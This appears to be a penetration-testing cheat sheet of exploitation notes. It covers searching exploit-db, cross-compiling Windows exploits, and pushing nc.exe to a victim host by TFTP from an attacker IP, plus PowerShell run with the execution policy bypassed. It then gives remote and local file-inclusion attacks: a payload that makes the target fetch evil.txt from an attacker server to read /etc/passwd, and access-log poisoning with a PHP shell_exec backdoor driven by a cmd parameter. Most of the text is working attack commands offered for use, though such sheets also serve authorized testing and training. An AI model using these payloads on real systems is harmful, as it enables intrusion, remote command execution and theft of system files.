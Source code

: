 # Exploitation
_Finding Public Exploits:_  
www.securityfocus.com/vulnerabilities    
www.exploit-db.com

`searchsploit <keyword>` #Search exploit-db by keyword  
`cp /usr/share/exploitdb/platforms/windows/remote/{643.c,646.c}` . #copy found exploit to root directory

### **Compiling** .  
`i586-mingw32msvc-gcc exploit-fixed.c -lws2_32 -o exploit.exe` #compile Windows code on Linux .      
`wine exploit.exe` #Run Windows executable on Linux

_Convert Python Exploit to Win Exe_  
#On our Windows staging host 
#Install pywin32-218.win320py2.7  
#Extract pyinstaller-2.0 
#Move python exploit into pyinstaller-2.0 directory 
#Invoke pyinstaller to convert to Exe  
`python pyinstaller.py —onefile ms11-080.py`

### **File Transfers**  
_TFTP_  
#Attacker  
`mkdir /tftp  
atftpd --daemon --port 69 /tftp  
cp /usr/share/windows-binaries/nc.exe /tftp/  `

#Victim  
`tftp -i AttackerIP GET nc.exe  `

_PS File Transfer_  
#code sequence in powershell-download file  
`powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile -File wget.ps1` #Bypass Execution Policy

### **Web Application Attacks**  
LFI/RFI #usually in poor php code .  
_RFI_  
`VulnParam=http://AttackerIP/evil.txt%00` #%00 null byte instructs to ignore everything after value .  
#Where evil.txt is `<?php echo shell_exec(“cat /etc/passwd”);?>`  
`$ echo ‘<?php echo shell_exec(“ifconfig”);?>’ > /var/www/evil.txt`

`$ tail -f /var/log/apache2/access.log` #track traffic from our apache web server hosting evil.txt

_LFI_   
#Contaminate the web server log with a PHP backdoor .  
`$ nc -nv TargetIP 80 ` 
`<?php echo shell_exec($_GET[‘cmd’]);?>` 

#append URL to execute command from access log file .  
`&cmd=ipconfig&VulnParam=../../../../../../xampp/apache/logs/access.log%00`
